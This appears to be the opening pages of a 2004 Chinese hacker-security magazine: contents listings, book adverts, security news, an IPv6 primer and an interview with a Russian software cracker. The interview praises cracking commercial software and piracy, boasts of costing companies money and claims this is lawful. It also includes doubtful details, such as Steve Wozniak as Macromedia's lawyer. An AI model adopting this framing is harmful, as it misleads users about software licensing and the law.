# 黑客防线2004合订本（一）第一部分

---

### 让肉鸡难逃五指山：精品后门驻留及思路分析

### Windows 2000 系统加固不求人

## 漏洞攻击
- Workstation Service 远程溢出漏洞攻击实战
- FrontPage 扩展服务远程溢出漏洞攻防实战
- 透视 Linux 内核级漏洞
- 手机短消息攻击内幕
- 我是这样发现 Serv-U FTP 溢出漏洞的

## 脚本攻击
- 基于 WAP 的 QQ 消息洪水攻击
- MSSQL 跨库查询你想怎么玩？
- 动网漏洞之“乾坤大挪移”
- 剑帅，你如何让我放心？！
- 再谈“跨站脚本攻击”

---

## 《代码攻击精粹》
## 《漏洞入侵精粹》
## 上市热卖中

### 35 名黑客 60 篇涉及各种脚本安全问题研究的心血之作
《代码攻击精粹》这本专辑以众多实例的形式介绍了黑客分析各种共享脚本程序代码漏洞，从而衍生出来针对这些漏洞的攻击思路和方法。在这些脚本程序没有安全补丁之前，利用这些程序 BUG 达到其攻击目的。内容上主要从 ASP 脚本、PHP 脚本、CGI 脚本、数据库脚本以及一些另类脚本分类讲解。每个分类下都有很多应用实例，非常方便读者进行研究学习。

35 名黑客的 60 多篇文章中所涉及的各种脚本安全问题研究的文章代码和用到的程序都收录在光盘内，请读者一定保存好光盘，以便阅读时候可以参照。

### 70 个入侵案例详细分析
《漏洞入侵精粹》这本专辑收集了黑客攻击最常利用的各种漏洞。从简单到复杂，从单一的漏洞利用到各种漏洞的综合应用，一一用入侵实例的形式表现出来，并且给出了这些漏洞的防范方法，使得读者能够知己知彼，做好防范工作，减少损失。在遭受入侵后可以最快速度地作出反应，找出被黑原因，查找黑客来源，做好进一步的安全防范措施。

40 多名黑客对于各种漏洞安全问题研究的文章代码和用到的程序都收录在光盘内，请读者一定保存好光盘，以便阅读时候可以参照。

- 黑客防线专辑 1：加密解密技术
- 黑客防线专辑 2：编程解析精粹

### 10 月 15 日已隆重上市
本套专辑数量有限，欲购该书的读者，请速到您购买杂志的地点进行订购或者致电《黑客防线》邮购部提前订购。关于此书的详细情况，请登录《黑客防线》网站（www.hacker.com.cn）查询。

**邮购信息**
- 通信地址：北京市中关村邮局 008 信箱
- 邮政编码：100080
- 收款单位：黑客防线邮购部
- 电话：010-62141446
- E-mail：yougoubu@hacker.com.cn

---

## 《黑客防线》——针对最新入侵与攻击的防范研究

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑部主任：吴田锋
- 编辑：刘流、蝴蝶、脚本小子、Socket、彭国军、刘志勇、谭磊
- 采编部主任：郭嘉
- 美编部：王凤
- 技术部：徐生震
- 发行部：孙雁秋
- 邮购部：郭丽敏

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局 008 信箱
- 邮政编码：100080
- 协办单位：北京寰海科技开发中心

- 技术支持电话：62141445-8004
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker-defence.com
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所
- 王碧清 律师
- 电话：13701229137
- 传真：(010) 84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘+说明书）

---

## 目录

### 卷首语

### 业界动态
- 新闻动态

### 名家专访
- 我“破”故我在！——走近世界级 Cracker：Ivanov ...... 4

### 专题企划
- IPv6：下一代互联网和移动通信的灵魂 ...... 6

### 漏洞攻击防范
- 安全配置 IIS 防止数据库下载 ...... 14
- 防范 Workstation Service 远程溢出漏洞 ...... 15
- FrontPage 扩展服务远程溢出漏洞修复方法 ...... 17

### 脚本攻击防范
- 脚本攻击防范策略完全篇（上） ...... 18
- 编写安全的 ASP 代码 ...... 21

脚本安全在过去的 2003 年里被炒得沸沸扬扬，无数脚本入侵方法在网络上流传，脚本程序的漏洞也层出不穷。很多脚本程序编写者总是在第一时间内弥补漏洞，但是终归是晚了一步，很多损失已经造成。那么我们究竟该如何来根除这样的弊端呢？本文就帮你解决这个问题。

- 让你的 PHP 更安全 ...... 25

### 黑兵器攻击防范
- 用 MRTG 在 IIS 6.0 上实现入侵检测 ...... 26
- 私人密码保护利器——mypassword ...... 29
- Websoft 网络防护盾 ...... 31

### CVC 病毒专栏
- 传统与另类：电脑病毒感染技术分析 ...... 33

### 网管之家
- Windows 2003 自动安装功能的全面透析 ...... 38

安装系统是每个计算机能正常运行的基础条件，如何才能在庞大的计算机群里非常快速地安装好每个机器的系统？当然不能选择一台一台手工安装。其实，从 Windows 2000 以来，微软就推出了自己的自动安装功能，到 Win2003 的时候这个功能更是强大，本文就是从这个角度入手，和大家一起探讨了这方面的基本功能。

- 移动用户的新天地——脱机文件夹 ...... 40
- 七步构建安全的 Serv-U FTP 服务器 ...... 42

现在网络上采用 Serv-U FTP 作为自己 FTP 服务器的人越来越多，但大多采用了默认的配置，或者只是在表面上加强了一下其安全性，这样的机器能不存在安全隐患吗？！那到底怎样才能加强 Serv-U FTP 服务器的安全性呢？请看本文。

- UNIX 应急响应策略 ...... 47

### 安全方案
- 利用网络负载平衡对抗 DoS ...... 49
- Windows 2000 账户的安全审计 ...... 54
- 组策略练就超级网管 ...... 56
- 企业网络中域级模型的构建和实现方法 ...... 60

活动目录作为一项非常重要的功能出现在 Windows 2000 操作系统中，已经广泛为专业人士所认同。我们也经常在网络或杂志上看到一些讨论活动目录的文章，但是似乎总是觉得不够过瘾，总是感觉与它还保持着一定的距离，原因就是没有真正实际的操作过程讲解，只是空泛的理论灌输。本文就是出于解决这个问题的角度，结合笔者的实际经验，完全从实际的角度，手把手地教你在企业网络中构建一个活动目录系统，大家再不会为活动目录而烦恼了！

### 编读互动

### 邮购信息

---

## 《黑客防线 2004 精华奉献本》
**定价：35 元**

### 内容提要：
《黑客防线 2004 精华奉献本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第 25 期到总第 36 期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册 2 本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的 15 个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑器攻击防范 6 个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠 2 张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及 150 个全程攻防录像演示。本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

### 邮购信息

| 名称 | 规格 | 价格 |
| :--- | :--- | :--- |
| 黑客防线 11－36 期 | 1CD | 10.00 元 / 期 |
| 黑客防线精华本 2001 | 2CD | 29.00 元 / 本 |
| 中国黑客内幕（6 折） | 1CD | 15.00 元 / 本 |
| 黑客防线增刊 2002 | 1CD | 19.80 元 / 本 |
| 黑客攻防 One To One | 1CD | 19.80 元 / 本 |
| 黑客编程 Follow Me | 1CD | 23.80 元 / 本 |
| 黑客攻击技术揭秘 | 1CD | 23.80 元 / 本 |

《黑客防线》创刊号到《黑客防线》10 期以前的杂志邮购请到我们网址：http://www.hacker.com.cn/book.htm 查询库存数量。

- 汇款地址：北京市中关村邮局 008 信箱
- 邮政编码：100080
- 收款人：《黑客防线》邮购
- 热线电话：(010) 62141446, 62141445-8011
- E-mail：yougoubu@hacker.com.cn

---

## 上市热卖中

### 《BIOS 应用百问百答》
本书具有信息量大、操作性强的优点，并根据目前最热门内容进行了全面更新，以生动翔实的问答实例全面介绍了 BIOS 与 CMOS 的设置方法与使用技巧。全书由 BIOS 与 CMOS 基本功能、BIOS 设置详解、BIOS 刷新、BIOS 个性化设置、BIOS 维修，以及另类 BIOS（显卡、光驱等）等 6 章内容组成。

本书通过对 BIOS 相关硬件知识、CMOS 的概念、BIOS 的设置方法以及升级等内容的讲解，可使读者对 BIOS 和 CMOS 有一个全面、深入的理解。170 个有关 BIOS 的实例解答，涉及了与 BIOS 相关的 7 个方面的内容，对读者的实践能起到很好的指导意义，大大增强了实战技巧。本书适合各类计算机用户，是计算机使用者日常维护计算机必备的工具书。

- 第一章 BIOS 基础
- 第二章 BIOS 设置
- 第三章 BIOS 刷新
- 第四章 BIOS 个性化设置
- 第五章 BIOS 维修

### 《黑客实战实例与技术分析》
在最近几年里，网络攻击技术和攻击工具有了新的发展趋势，使借助 Internet 运营业务的机构面临着前所未有的风险。本书对网络攻击的新动向进行了分析，使读者能够认识、评估并减小这些风险。本书没有阐述繁琐的信息安全理论，而是从应用的角度阐述了黑客最新的攻击手段和步骤，并提出了相应的预防措施和建议，可读性和实用性非常强。

本书的内容丰富新颖，主要包括扫描技术、后门入侵、黑软伪装、破解技术剖析，以及打造自己的黑客利器等。本书适合于任何对网络安全和黑客技术感兴趣的读者，对网络管理员和系统管理员有重要的参考价值，特别是刚刚迈入黑客之门的读者。

- 第一章 扫描技术
- 第二章 网页攻击
- 第三章 后门技术
- 第四章 千变万化的黑软伪装之道
- 第五章 恶意而入 漏洞攻击
- 第六章 破解技术剖析
- 第七章 打造自己的黑客利器

---

## 谋定而后动

在网络战场上，无处不在的没有硝烟的战争在悄悄地爆发，国与国间势力的对抗，人与人之间实力的挑战，这样的故事在我们身边发生的太多太多。如何能在这样的“现实”中如中流砥柱般屹立不倒？如长风破空般潇洒不羁？唯一的途径——谋定而后动！

时代的发展造就无数英雄，同时也抹去老旧的英雄。如何随时代而进步？如何把握住时代的脉搏？如何永远掌握最先进的技术？还是那句话：谋定，方能后动！

谋，是对局势的把握，是对整体大环境的深刻理解，更是对灿烂明天的一种掩不住的迸发热情！有谋，才有梦想；有谋，才有目标！

动，是谋的体现，是谋的实施，更是实现自己梦想的桥梁！

2004 年的网络安全界注定会随着时代的进步而蓬勃发展，网络上也必定会发生一些本该发生或不该发生的事。在这个虚拟的战场上，要常胜不败，唯一的办法就是先熟谋而后动！谋：学习学习再学习，思考思考再思考；动：由学而思遂练，由生而熟遂巧，这样才能真正掌握住最新的技术，才能学到技术中的精髓！才能体会到万变而不离其宗！

为了实现这个梦想，新年的《黑客防线》会让大家有更多的思维空间，有更大的技术学习广度，也能更好的“谋”！同时，攻防实验室、黑防论坛也会进一步考虑大家的利益，要让大家好“谋”而更好“动”！

希望在我们“谋”、“动”结合的体系中，能让所有读者朋友都不断学习，不断进步，从而屹立不倒！叱咤风云！

谋定，方能后动！

---

## .Name 登记网站被黑客攻击
环球域名登记公司（GNR）证实，该公司的 .Name 登记网站受到黑客攻击，公司将攻击理由解释为其重新启动服务计划的决定。GNR 公司代表说，该网站功能是管理 .name 网络域名的登记，在解决问题之前，网站一直处于瘫痪状态。该公司总裁 Haugnes 说：攻击网站的黑客利用了维护网站用软件包中的漏洞。但是他指出，这次攻击不会给公司整体运营带来重大损害。GNR 公司总裁没有评论被利用软件漏洞的类型。他还说，网站以前没有因攻击而瘫痪过。

发动攻击黑客的屏幕名字是 SUr00tIK 和 GroMx，黑客在 .name 网站上贴出了同样外观的主页，特点是与实际 GNR 网站的坏链接。GNR 公司总裁说：黑客没有影响公司的其他网站页面，也没有影响内部服务器，被用来破坏网站的漏洞已经被修复。

## 明年病毒及垃圾邮件将继续肆虐
网络安全公司 Sophos 日前预测称，2004 年将会出现更多的病毒编写者和垃圾邮件发送者为计算机用户制造更大的麻烦。不过，这家致力于防病毒和反垃圾邮件的公司还指出，病毒对移动设备的影响不会在 2004 年有大的发展。过去的一年中，Sophos 接到的救助信息中，“大无极”病毒无疑是最大的麻烦制造者，有关报告占到了所有报告的五分之一；位居第二的是“冲击波”，占到 15%；伪装成“冲击波”补丁的 “Nachi” 列第三名，关于这种病毒的报告占 8%。所有名列前十名的病毒攻击的都是 Windows PC，而 Sophos 预计这一势头还会延伸到 2004 年。公司高级技术顾问格雷厄姆·库利（Graham Cluley）说：“大无极病毒是通过电子邮件扩散的，大量的邮件对 Mac 和 Unix 用户都产生了影响，虽然他们不会感染病毒。现在，病毒与滥发垃圾邮件的结合已经成为了一种新的趋势。”

然而，Sophos 称，“大无极”病毒的最大受害者正是那些垃圾邮件的散发者。由于这种病毒的扩散会造成垃圾邮件发送系统速度缓慢，今年 8 月份 Sophos 公司发现垃圾邮件的数量明显减少。此外，木马病毒的数量正不断上升，垃圾邮件的发送者们经常利用此类病毒达到群发邮件的目的。Sophos 估计，有 30% 的垃圾邮件来自那些遭到病毒控制的计算机或服务器。

## Linux 内核被发现存在重大缺陷
安全专家们近日声称发现 Linux 内核的一个新缺陷，这一缺陷将会使攻击者能够获得接入一台易受攻击的电脑的根使用权继而控制整台电脑。一个不知名的黑客最近利用上述缺陷侵入了数台 Debian Project 组织的服务器，这才使新的缺陷被人发现。

这一发现使整个 Linux 家族都受到波及。因为缺陷出现在 Linux 内核，这实际上已影响了操作系统的各个部分，一些厂商已证实他们的产品非常容易受到攻击。缺陷主要存在于已发布的 2.4.0 到 2.5.69 版本的内核中，还好 2.4.23-pre7 和 2.6.0-test6 版本已经得到升级。

赛门铁克认为，这一缺陷将允许外壳级的本地用户有权使用系统来提高他的权限，直至最高。这样，攻击者就可以随意操纵此台电脑。赛门铁克警告说，新的缺陷能和许多远程漏洞相连接，可使远程攻击者获得根访问权。红帽（Red Hat Inc.）公司和 Debian Project 对此都发出公告，并提供了解决方案。其他厂商的产品也存在易受攻击的弱点，包括 MandrakeSoft、SuSE Linux 和 Caldera International 公司的产品等。

## IE 6 出现新的安全漏洞
近日，丹麦安全公司 Secunia 公布了微软 Internet Explorer 6 浏览器中存在新的安全漏洞，可以导致攻击者在用户的 PC 中运行恶意代码。其中的一个漏洞是一个跨站点脚本安全隐患，可以导致来自于某一安全域（如因特网）的脚本以另一个域（如我的电脑）的安全权限执行。Secunia 声称已经证实 IE 6 中存在这个安全漏洞，但早期 IE 版本浏览器也可能存在这个问题。

Secunia 公司建议用户在没有合适的补丁程序发布之前关闭 Internet Explorer 浏览器中的活动脚本代码；或者使用非 IE 浏览器。有关禁止 IE 浏览器中活动脚本的操作方法可以参考 Secunia 公司计算机紧急事件应急小组公布的操作说明，禁止这些脚本可能导致某些网站无法正常访问。

据悉，微软目前正在调查 IE 6 中的上述安全漏洞问题，并可能在该公司每月发布的补丁程序中修复这一问题，或者根据其严重性单独发布一个补丁程序。

## 蠕虫攻击手机令人担忧
随着越来越多的消费者开始利用手机和其他掌上设备浏览网页和发送电子邮件，一种新的担心出现了：蠕虫和病毒正在通过具有连网功能的手机快速传播。尽管这一问题引起的麻烦不大，目前全球范围内每天也仅有几例病毒入侵手机的情况出现，但随着手机内的操作系统正在标准化，黑客将可以像攻击台式机一样针对手机等掌上设备中的缺陷发起猛攻。

统计数字显示，电信公司目前每年都要花费多达 80 亿美元用于修补带有程序错误、机械故障以及其他问题的手机。据称，为了防止蠕虫和病毒对手机展开攻击，这些电信公司正在积极采取行动，因为否则的话他们可能面临数百万美元的维修费和业务损失。据估计，在最糟糕的情况下，到 2005 年，针对手机的恶意蠕虫攻击将导致每 500 万名用户受到感染就会带来 4.71 亿美元的经济损失，一些手机用户出于无奈可能会不停地更换运营商。对此，日本 DoCoMo 公司就表示，当用户的台式机上出现蠕虫时，他们不会拨打微软公司的投诉电话，但如果手机出现问题，他们就会向运营商进行投诉。

## 德国拟建世界上最大的电脑病毒研究中心
世界上最大的抗电脑病毒检测中心明年将在德国马格德堡市落成。届时，德国马格德堡亥·盖里克大学将与一家私营企业合作，开展对电脑病毒的研究和测试工作。

据报道，该中心独立于软件制造商，是迄今为止世界上最大的反电脑病毒研究机构。从明年 1 月起，中心将开始对世界上各种计算机杀毒程序进行测试，研究这些软件的性能和缺陷。该机构一位专家指出，目前每天都有计算机遭到病毒的攻击，由于现在的电脑病毒越来越高级，杀毒程序也必须提高到一个新的水平。

## 思科无线接入点 Bug 不断，无线网络安全性受质疑
思科宣称自己的部分无线接入设备有 Bug，攻击者可以使用该 Bug 攻击以此种设备组成的无线网络。这些有 Bug 的无线接入节点以明文的方式通过无线电传输安全密钥，这意味着攻击者可以通过窃听来截获这些密钥。通过得到的密钥，攻击者可以毫不费力地对通过无线传输的加密数据包进行解密。

这个 Bug 影响运行思科 12.2(8)JA、12.2(11)JA 和 12.2(11)JA1 互联网络操作系统软件的 Aironet 1100、1200 及 1400 系列无线接入设备。这些设备以明文方式向 SNMP 服务器传送有线等效保密算法（WEP）的密钥。存在 Bug 的设备并非一直受到影响。思科称，使用动态 WEP 密钥的设备不受此 Bug 的影响。另外，运行 VxWorks 系统的思科无线接入设备也不受影响。

## 冲击波是小孩玩意，网络恐怖袭击将至
今年冲击波病毒袭击了全球数以万计的计算机系统，令计算机用户谈之色变，但美国国土安全局的官员称，同真正的恐怖分子所进行的网络攻击比起来，冲击波只不过是小孩玩意。美国国土安全局主管阿尔特·约兰在由政府官员和高科技企业主管参加的国家网络安全峰会上指出：“到目前为止，黑客们进行网络攻击所采用的手段都并不先进，我们能够及时做出应对或预防，但是我们不会总是这么幸运。”

政府官员们担心网络攻击将会导致通信系统、银行及贸易网络以及其它基础设施瘫痪。事实上官员们的这种担心并非杞人忧天，安全专家们发现利用操作系统和软件中的漏洞，入侵者完全有能力做到这一点。与会者的讨论集中在了如何建立起一套网络攻击预警系统，同时如何开发安全性高的软件以及提高用户的安全意识也是会议讨论的重点。

莱奇最后指出，在今年上半年共报告了 76000 多起受到网络攻击的事件，这要大大超过去年同期，也标志着网络安全问题日益成为一个焦点问题。

## 我“破”故我在！——走近世界级 Cracker：Ivanov

采访／翻译 萧雍

一位个性十足、憎恶失败，行事和思维近似于东方哲学家的世界级软件逆向工程学专家 Ivan 博士，会给 21 世纪的 Crack 界带来什么样的变化？

Hacker 和 Cracker 是我们平时争论最多的话题，其实他们是有明显区别的，Hacker 以严格的、天才般的思维感触这世界，以漂亮、简洁、完美的编程为自豪，发现系统级别的 Bug 为乐趣，突破各种安全防范为资本，研究的范围一般在“突破”（Hack）：网络系统、长途电话系统、PGP 加密系统、信用卡识别系统、RAS 系统、计算机病毒、无线系统以及身份识别系统等。而 Cracker 对解密软件有一种偏爱，以破解各种加密或限制的商业软件为乐趣，讲究 Crack 的艺术性和完整性，从文化上体现计算机的大众化。Cracker 有很深的数学基础和密码学造诣，他们是计算机发展的一种动力。Ivan 博士说：“Cracker 是一个对于未知世界不断的追问者。”

Ivan 博士是诺基亚研究院俄罗斯分院的项目主管、总工程师。同时，也是世界著名 Cracker 之一。Ivan 博士毕业于俄罗斯下诺夫哥罗德大学，在芬兰赫尔辛基大学取得博士学位。Ivan 博士写有 11 篇关于 IC 芯片和 3G 通信技术的论文和百余篇密码学论文。小编有幸拜会了 Ivan 博士，并进行了独家采访。

## 我是这样走上 Cracker 之路的

“睿智，机敏，具有世界级 Cracker 的严谨、坚强和果敢。”这是世界 Cracker 们给予他的形容词。是什么因素使 Ivan 博士走上了 Cracker 之路？是技术上的吸引！从兜里往外掏钱是一件很痛苦的事，即使是米哈伊尔·霍多尔科夫斯基这样的首富也不例外，既然能通过技术取代付钱，为什么不这样做呢？在俄罗斯的法律上这样做并不触犯法律。

1999 年初，Ivan 曾经使 Macromedia 公司损失了数百万美金，为此，Macromedia 的律师 Steve Wozniak 给他发来电子邮件警告，说他的网站不合法，但是邮件中没有任何有价值的论点，包含了对 Ivan 的恐吓和侮辱，Ivan 知道该律师的目的就是让他关闭提供 Macromedia 公司的系列产品的 cracks 的下载站点。他认为 Macromedia 的这个做法是很可笑的，由于俄罗斯法律确实不保护国外计算机软件产品的版权，于是引用了部分对其有利的俄罗斯法律来驳斥律师。

同年 6 月，他成立了一个 Cracker 组织，结束了他的单打独斗时代，经过短短的几年拼搏，挤进了世界级 Cracker 组织的行列，该组织集中精力研究密码学，所有的成员都对密码学有很深的研究，该组织所做的 KeyGen 和 Patch，几乎个个都是精品，不以发布破解的数量来赢得自己的名声，只是集中精力研究大家公认的难题，取得一个又一个辉煌的成绩，进而得到了全世界的认可。

“此后我曾经遇到两家公司的起诉”，Ivan 博士说。一家是关于密码学专利权的使用，一家是关于游戏。由于人家研究出来的密码学成果是有专利权的，没经允许是不可以随便使用的；另外是在公司发布游戏前一个月，Ivan 博士破解出来提前公布，结果造成游戏公司的损失。“很幸运我都摆脱了这些起诉。”Ivan 耸了耸肩头说。

## Ivan 博士谈自己的思想和看法

**萧雍：** Ivan 博士先生您好。对于您愿意接受《黑客防线》的采访，我们感到很荣幸。谁都知道 Cracker 是很枯燥、很寂寞的群体，您是不是出于对技术的狂热爱好和追求才加入这一群体的？加入这一群体您感到最值得自豪的是什么？

**Ivan：** 我没有什么可值得自豪的，我感谢上帝让我出生在这个时代，赶上经历计算机的发展，感谢上帝赐予我接受更高教育的机会。

**萧雍：** 请问 Ivan 博士，一个真正的 Cracker 与一个破解者有什么不同？

**Ivan：** Cracker 是一个以不断探索的研究者，是对于现实世界的不断追问者。破解者是一种纯粹的商业目的工作者，他们是以盈利为目的的。不过从外部很难区分他们彼此，毕竟这些都是纯粹的内心活动。

**萧雍：** 要怎么样才能成为真正的 Cracker？究竟数学基础和密码学知识对于 Cracker 有何帮助？

**Ivan：** 呵呵，这是一个连贯的、相互弥补的几门学科，Cracker 接触用密码学保护的软件是再正常不过的了，不过要想分析这样的软件必须要了解一些密码学理论，要想了解密码学理论必须要有坚实的数学基础。我还想补充一点的是，作为一个真正的 Cracker，这几门学科还是远远不够的，至少还需要学习哲学、心理学。其实我认为一个真正的 Cracker 和英国爵士 Arthur Conan Doyle 创造的 Sherlock Holmes（福尔摩斯）倒是很像。

**萧雍：** 您能对 Cracker 精神象征进行简单的定义吗？

**Ivan：** 简单地说，就是：自由、平等、博爱。

**萧雍：** 为什么您将 Cracker 的精神象征用这三个词来概括？

**Ivan：** 我对做人的概括，也是同样的使用这三个词。用三个词表达了生命中最本质的东西，而这三个词也同样适用于 Cracker。全世界有数万 cracker 为这些理想而献身。于是我们决定看看，这些理想是如何被实践的，它们在今天又意味着什么。

**萧雍：** 您把自己称为一个工匠——一个和专家相对的称号。为什么？

**Ivan：** 真正的专家总能找到答案。而工匠的知识总是限于他的技术之内的。比如说，我很了解调试工具、计算机语言，我知道硬件调试器上不同指令的作用，我多少知道些怎么使用密码算法。这些我都知道，可那不是真正的知识。真正的知识在于懂得怎样工作，工作的意义……诸如此类的东西。例如一个画家他画什么和利用什么工具来画这些不重要，重要的是他怎样通过画来表达自己的思想。

Ivan 博士认为，实际上 Cracker 在俄罗斯乃至世界的 IT 行业没什么地位，Cracker 只不过是为了让更多的人使用好的软件而已，但是如同没有 Hacker 就不会有今天 Internet 技术的繁荣一样，同样的，没有 Cracker，计算机也不会达到今天的普及程度；没有 Cracker，大部分程序员决不会从事这一行业的。因为，如果没有盗版的编程开发软件，他们拿什么学呢？相信不会有谁为了学习像 Visual Basic 这样的软件就花数万元买正版的软件。“吃水莫忘掘井人，”Ivan 博士笑着说。是的，从一个侧面来讲，如果没有盗版的横行，计算机应用就不会在全世界普及，所以，尽管盗版不合法，但是却使世界上更多的人走上了程序员之路，促进了计算机科学的蓬勃发展。

关于正确对待 Cracker 群体的态度，Ivan 博士认为，世上万事万物都有矛盾和统一，有矛就有盾，软件逆向工程也不例外。在 Crack 技术发展的同时，软件保护技术的发展也一直没有停止过，从最初的磁盘加密，到现在泛滥的序列号、软件狗等，都是和 Cracker 技术同步发展、互相促进的。

## Ivan 博士寄语黑防读者……

**萧雍：** 作为世界级的 Cracker 之一，您对中国 Crack 界有什么看法，对中国 Crack 界有什么话要说？

**Ivan：** 中国的 Cracker 很好，我有很多中国的 Cracker 好朋友，希望对 Cracker 感兴趣的朋友能够努力的学习，做出一番事业。将来希望我来中国旅游时，谁能请我喝一瓶酒，泸州老窖或者二锅头都行……

**萧雍：** 谢谢您能接受黑客防线的采访，请您对黑客防线的读者说几句话。

**Ivan：** 感谢《黑客防线》的采访，谢谢！我想对《黑客防线》的读者说：“我相信我们身负一个责任，你知道，就是告诉应用软件的学习者：Cracker 和 Hacker 是善良诚实的人，他们在与技术交往的时候，没有忘记无数学习者；他们愿意与之免费分享一些技术和学习资料，他们是热忱的，是非常诚恳的。如果我能为建设并美化这种形象做出贡献，并在外人心中产生更多的正面影响，我会为此感到非常高兴。” BD

---

### IPv6：下一代互联网和移动通信的关键

刘流：Internet 协议的第 4 版（IPv4）为 TCP/IP 族和 Internet 提供了基本的通信机制。IP 技术已经广泛应用了 10 多年，随着 Internet 的指数增长，互联网的体系结构由 NSFNET 核心网络演变为由 ISP（Internet Service Provider，互联网服务提供商）运营的分散的体系结构，互联网几乎覆盖了全球的每一个角落。当前互联网面临的一个严峻问题是地址消耗，即没有足够的地址来满足全球的需要。IPv4 的问题逐渐显露出来，32bit 的 IP 地址空间枯竭，网络号码匮乏，路由表急剧膨胀，对网络安全和多媒体应用的支持不够等。IETF 开发的下一代 Internet 协议 IPv6 就能解决目前 IPv4 所存在的主要弊病，所以本期我们专门给大家抢先推出了 IPv6 的相关技术，希望大家能在第一时间内掌握最新的技术！

文／图 Hiking 小华健

IPv4 技术从昨天过渡到今天，在网络发展中起到了巨大的作用。不过，随着科技的进步，无论在网络地址的提供、服务质量，还是在安全性等方面，在当今网络科技的需要上，它都显得越来越力不从心。今天我们主要介绍下：下一代互联网协议核心 IPv6，具体包括它的地址、安装路由及其设定、网络配置文件、手动配置、加强安全性等方面，希望大家可以从中很快了解 IPv6 并解决一些实际的问题。

另一个值得考虑的因素是地址分配。IPv4 时代互联网地址分配失误的教训使人们意识到即使有 128 比特的地址空间，一个良好的分配方案仍然非常关键。因此，相信在 IPv6 时代 IP 地址可能会得到更充分的利用。

### IPv6 优点及其作用

它的优点可以总结为以下几个方面：

- **1. 128 比特大的地址空间**
  IPv6 的地址长度由 IPv4 的 32 比特扩展到 128 比特，这样庞大的地址空间可以在今后 20 年之内满足互联网的增长，即使所有的移动电话也配置 IP，也照样足够使用。

- **2. 配置了更多的新科技，安全性能提高**
  IPv6 允许使用者可以用一些改进的技术处理网络上的一些问题。这些改进在网络上的用途是不可估量的。基本改进如下：

- **（1）自动配置**
  DHCP 是可以选择的，这和 IPv4 不一样。当一个初学者访问另一个没有 DHCP 服务的站点时可能会遇到麻烦。在 IPv6 中有一个叫“stateless host autoconfiguration”的机制可以强制托管。和 IPv4 中的 DHCP 相比，它的用法非常简单也容易管理。这在 RFC2462 中有详细的说明。

- **（2）安全性**
  安全已经是当今网络协议的一大需求。这促使 IPv6 包括了 IPsec，它允许鉴定、加密和压缩 IP 的通信量，除此之外，应用程序的协议（比如 SSL 或者 SSH）在两个节点之间的所有的 IP通信量，在没有调节任何应用程序的情况下就能将它处理，这样做非常有用。在机器上的所有应用程序从加密和鉴定中获益，这种方法被用于基本的网络上。不过，并不是每个程序或者说服务都需要这样做。

- **（3）多点传送**
  多点传送是创建虚拟计算机网络的一种能力，该虚拟网络中的每台计算机都能同时直接与其他每个成员通信。多点传送协议还不太普及。而且，在目前的因特网协议基础之上的多点传送效率上实际不高，因为整个因特网是通过大量单一点对点（或单播）链接连接起来的；因而无法实现多点传送。

- **（4）地址及其表示方法**
  与主机会话有 3 种方法：unicast、broadcast 和 multicast。其中最普通的与主机会话的办法就是 unicast address（单播地址）。多点传送不能被用在 IPv4 上。仅仅有一些程序如 MBone audio 和 video broadcast utilities 可以用多点传送。在 IPv6 中，所有的网络和主机位被分配，并且鉴别目标网络和主机。地址在 ff::/8 网络是保留给多点传送程序的。有两个特殊的 multicast addresses 从 IPv4 中取代 broadcast addresses。一个是“all routers”多点传送地址，另一个是“all hosts”，这些地址对于子网络是特殊的。例如，连接到两个不同的子网络路由器能够给主机/路由器赋地址如下：
  ```
  ff0X::1 for all hosts and
  ff0X::2 for all routers
  ```

### 网络配置文件

网络配置文件在一个设置文本中的配置文件里有详细的说明。假如你配置一个主机（不是路由器）的话就不需要配置这些，用 autoconfiguration 就可以了。如下：

- `/etc/rc.conf`：详细说明系统服务（包括网络服务）在系统初始化时自动启动。
- `/etc/hosts`：包括 FQDN 名字和 IPv6 的数字地址之间的映射。
- `/etc/ifconfig`：包括用 ifconfig 对 IPv6 网络安装。

> 注：为了更加具体和方便理解，本文我们以 NetBSD 为例进行介绍。

### 在 IPv6 中主机如何自动配置

有两个分离的机制对 IPv6 自动配置进行了详细的说明，其中一个叫 stateless address autoconfiguration，RFC2462 里面有详细的说明；另一个叫 DHCPv6。

stateless address 基本配置工作包括两部分：一个是主机（可以被自动配置），一个是路由器（发送重要的信息到主机）。

主机配置一个本地连接地址到它的网络接口，一个 IPv6 的本地连接地址以“fe80”开头，并存在一个值位于低 64 位上。低 64 位被叫做接口 ID，对于以太网和其他接口来说，MAC 地址被用来作为接口 ID 的来源。如下：

```bash
host% ifconfig ne2
ne2: flags=8863<UP,BROADCAST,NOTRAILERS,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        media: Ethernet manual
        inet6 fe80::a00:5aff:fe38:6f86%ne2 prefixlen 64 scopeid 0x1
```

通过在路由器上运行 rtadvd，路由器定期广播一些关于连接的信息，并发送到在连接上的所有节点。这些信息通过 ICMPv6 “router advertisement”包来运载。例如，广播以下信息：IPv6 子网络的前缀是 2001:218:420::/64，缺省的路由器在 fe80::240:5ff:fea0:8e08，IPv6 连接 MTU，缺省的 hoplimit，还有路由存活时间。

```text
14:18:20.812850 fe80::240:5ff:fea0:8e08 > ff02::1: icmp6: router advertisement(chlim=64, router_ltime=1800, reachable_time=30000, retrans_time=1000)(src lladdr: 0:40:5:a0:8e:8)(mtu: mtu=1500)(prefix info: LA valid_ltime=2592000, preferred_ltime=604800, prefix=2001:218:420::/64)

6000 0000 00a0 3aff fe80 0000 0000 0000
